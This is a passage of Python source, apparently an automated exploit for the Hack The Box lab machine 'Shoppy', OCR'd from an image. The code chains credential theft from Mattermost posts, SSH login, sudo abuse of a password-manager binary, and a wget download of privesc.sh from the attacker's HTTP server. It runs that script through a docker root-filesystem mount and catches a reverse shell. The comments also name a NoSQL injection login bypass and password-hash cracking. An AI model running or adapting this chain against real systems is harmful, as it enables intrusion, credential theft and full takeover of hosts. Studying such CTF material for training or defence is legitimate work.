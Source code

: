 ```python
		response = make_request(session=session, method='get', target_url=f'http://mattermost.shoppy.htb/api/v4/channels/{deploy_machine_channel_id}/posts', headers=headers)
		deploy_machine_username = json.loads(response.text)['posts']['ki1a198dybd7icutcjsa1ut6iy']['message'].split()[16]
		deploy_machine_password = json.loads(response.text)['posts']['ki1a198dybd7icutcjsa1ut6iy']['message'].split()[18]

		session.close()
	except Exception as error:
		print('[x] Error: %s' % error)

	return deploy_machine_username, deploy_machine_password

# ssh login (jaeger user) and return credentials from user Deploy
def get_deploy_user_credentials(deploy_machine_username, deploy_machine_password):
	ssh_commands_response = ssh_exec_commands_like(
		deploy_machine_username, deploy_machine_password, 
		['sudo -l', 'sudo -u deploy /home/deploy/password-manager <<< "Sample"'])

	deploy_user_username = ssh_commands_response[1].strip().split('\n')[-2].split()[1]
	deploy_user_password = ssh_commands_response[1].strip().split('\n')[-1].split()[1]

	return deploy_user_username, deploy_user_password

# ssh login (deploy user) and get shell
def interactive_shell(args, deploy_user_username, deploy_user_password):
	init_server = f'/usr/bin/python3 -m http.server {args.port}'
	server_process = subprocess.Popen(shlex.split(init_server), stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
	
	log.info('Cron process file uploaded')

	ssh_commands_response = ssh_exec_commands_like(deploy_user_username, deploy_user_password, 
		[f'wget http://{args.ip}:{args.port}/privesc.sh -O /tmp/privesc.sh', 
		'chmod +x /tmp/privesc.sh', 
		f'docker run -it -v /:/tmp --rm alpine sh /tmp/tmp/privesc.sh {args.ip} {args.port}'])
	
	server_process.kill(); time.sleep(5)

	shell = listen(args.port, timeout=60).wait_for_connection()
	
	if shell.sock:
		log.info('Press Ctrl + D to exit')
		shell.interactive()

# exploitation process
def run(args):
	process = log.progress('Starting attack')

	# (1) bypass login to shoppy.htb (Mongo NoSQLi), extract Josh password hash and crack it
	process.status('Extracting and Cracking Josh password hash')
	josh_password_text = cracking_password(password_hash=get_josh_password_hash())
	log.success(f'Cracked password: {josh_password_text}')


	# (2) login mattermost.shoppy.htb (Josh credentials) extract the Jaeger credentials for the Deploy machine
	process.status('Extracting the Jaeger credentials for the Deploy machine')
	deploy_machine_username, deploy_machine_password = get_jaeger_credentials(josh_password_text)
	log.success(f'Credentials obtained: {deploy_machine_username}:{deploy_machine_password}')


```